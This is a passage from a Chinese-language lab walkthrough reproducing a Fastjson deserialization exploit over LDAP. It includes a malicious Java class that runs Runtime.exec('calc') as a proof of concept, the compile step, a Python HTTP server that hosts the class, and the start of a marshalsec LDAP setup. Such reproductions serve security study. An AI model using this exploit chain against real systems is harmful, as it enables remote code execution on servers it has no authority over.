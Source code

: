 ```
curl http://192.168.112.140:8080/fastjson -H "Content-Type: application/json" --data '{"name":"xiaoming", "age":18}'
```

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR3icfiaC2TEFqM7T31ciavUJGUaOj6yag99fkaRBd5ffREvCd95VwjhX7QGMGVN0aSU8mzia9Eeict6pjEg/640?wx_fmt=jpeg)  

**0x03 复现过程 - 基于 LDAP 方式的反序列化漏洞利用**

win 环境下是使用 JDK8u161 搭建，由于基于 RMI 的反序列化漏洞需要 JDK 版本小于 8u121，所以这里复现使用 LDAP 方式

**1）编写恶意类代码**

```
public class evilclass {
public evilclass (){
try{
Runtime.getRuntime().exec("calc");
}catch (Exception e){
e.printStackTrace();
}
}
public static void main(String[] argv){
evilclass e = new evilclass();
}
}

或者写法二: (推荐)
import java.lang.Runtime;
import java.lang.Process;
public class evilclass{
static {
try {
Runtime rt = Runtime.getRuntime();
String[] commands = {"calc"};
Process pc = rt.exec(commands);
pc.waitFor();
} catch (Exception e) {
// do nothing
}
}
}
```

**2）javac 编译成 class**

```
javac evilclass.java
```

**3）开启 http 服务**

```
python -m SimpleHTTPServer 80
```

**4）使用 marshalsec 搭建 LDAP 服务**
